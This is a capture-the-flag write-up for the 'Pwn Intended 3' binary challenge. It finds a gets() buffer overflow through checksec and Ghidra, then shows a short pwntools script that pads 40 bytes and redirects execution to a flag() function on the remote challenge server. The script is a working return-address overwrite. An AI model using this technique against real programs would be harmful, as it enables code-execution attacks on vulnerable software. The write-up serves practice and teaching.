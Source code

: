 # Pwn Intended 3
Again, smashing the keyboard doesn't work. Sadly. Let's check out the protections:

![checksec](images/checksec-2.png)

Same thing again, GHidra decompilation time.

![ghidra](images/ghidra-3.png)

Again, `gets()` shows a clear buffer overflow vulnerability. Among other functions there is a `flag()` function.

![flag()](images/flag-3.png)
![flag()](images/flag-dec-3.png)

So, calling `flag()` returns the flag. Unsurprisingly.

## Exploitation
We'll be using the buffer overflow vulnerability to redirect code execution to the `flag()` function. Some experimenting shows a padding of 40 bytes is needed to overwrite RIP.

```python
from pwn import *

elf = ELF('./vuln')
p = remote('chall.csivit.com', 30013)

payload = b'A' * 40
payload += p64(elf.symbols['flag'])

p.clean()
p.sendline(payload)

print(p.clean(2).decode())
```

**csictf{ch4lleng1ng_th3_v3ry_l4ws_0f_phys1cs}**